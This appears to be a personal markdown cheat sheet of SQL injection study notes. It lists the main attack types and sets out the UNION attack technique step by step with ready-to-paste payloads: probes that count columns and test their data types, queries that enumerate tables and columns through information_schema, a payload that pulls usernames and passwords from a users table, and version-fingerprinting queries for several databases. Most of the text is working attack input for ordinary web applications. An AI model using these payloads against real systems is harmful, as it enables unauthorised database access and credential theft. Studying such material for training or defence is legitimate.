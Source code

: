 # sqlin


#common sql injection attack :

-Retrieving hidden data, where you can modify an SQL query to return additional results.
-Subverting application logic, where you can change a query to interfere with the application's logic.
-UNION attacks, where you can retrieve data from different database tables.
-Examining the database, where you can extract information about the version and structure of the database.
-Blind SQL injection, where the results of a query you control are not returned in the application's responses.



 #For a UNION query to work, two key requirements must be met:

    The individual queries must return the same number of columns.
    The data types in each column must be compatible between the individual queries.



# union attack steps:

-Determining the number of columns required in an SQL injection UNION attack :

  - ' ORDER BY 1-- or  ' ORDER BY 2-- etc 
  - ' UNION SELECT NULL-- or ' UNION SELECT NULL,NULL -- etc (recommended)
  - 
-Finding columns with a useful data type in an SQL injection UNION attack 
  - if the query returns four columns, you would submit:
    - ' UNION SELECT 'a',NULL,NULL,NULL--
    - ' UNION SELECT NULL,'a',NULL,NULL--
    - ' UNION SELECT NULL,NULL,'a',NULL--
    - ' UNION SELECT NULL,NULL,NULL,'a'-- 
  -found name of tables :
  ' UNION  SELECT 'a','a' FROM information_schema.tables --
  -found name of column :
  ' UNION  SELECT  'a','a'  FROM information_schema.columns where table_name='tablename'--
  
  to find name of tables and cloumns in oracle use all_tables , all_tab_columns.
  
 

- Retrieving multiple values within a single column
   - ' UNION SELECT username || '~' || password FROM users-- 
# notes:
  - There is a built-in table on Oracle called dual which can be used for this purpose : ' UNION SELECT NULL FROM DUAL-- (MUST in oracle )
  -  the hash character # can be used to identify a comment 


# Examining the database in SQL injection attacks:
 -Microsoft, MySQL 	SELECT @@version
 -Oracle 	SELECT * FROM v$version
 -PostgreSQL 	SELECT version() 
 
# Listing the contents of the database:
 - SELECT * FROM information_schema.tables 
 - 
